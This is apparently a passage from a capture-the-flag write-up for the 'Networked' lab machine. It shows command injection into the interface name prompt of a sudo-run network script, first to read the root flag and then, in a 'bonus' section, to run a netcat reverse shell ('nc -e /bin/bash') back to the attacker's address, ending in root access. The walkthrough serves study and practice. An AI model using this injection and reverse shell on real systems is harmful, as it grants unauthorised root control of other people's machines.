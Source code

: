 {% highlight plaintext %}
[guly@networked ~]$ echo "cat /root/root.txt" > /tmp/foo
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                             
interface NAME:
ps /tmp/foo
interface PROXY_METHOD:                                                                             
s                      
interface BROWSER_ONLY:
s                                                                                                   
interface BOOTPROTO:   
s
0a8e############################                                                                    
0a8e############################
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delay
ing initialization.                                                                                 
{% endhighlight %}

As expected, the flag appears in the output.

# Bonus points: root shell

The technique to read the flag doesn't take much modifying to get root shell. Simply replace /tmp/foo with a netcat command.

{% highlight plaintext %}
[guly@networked ~]$ echo "nc -e /bin/bash 10.10.14.27 3333" > /tmp/foo
[guly@networked ~]$ chmod 777 /tmp/foo
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                
interface NAME:
ps /tmp/foo
interface PROXY_METHOD:
s
interface BROWSER_ONLY:
s
interface BOOTPROTO:
s
{% endhighlight %}

{% highlight plaintext %}
root@kali:~# nc -nlvp 3333
listening on [any] 3333 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 47768
whoami
root
{% endhighlight %}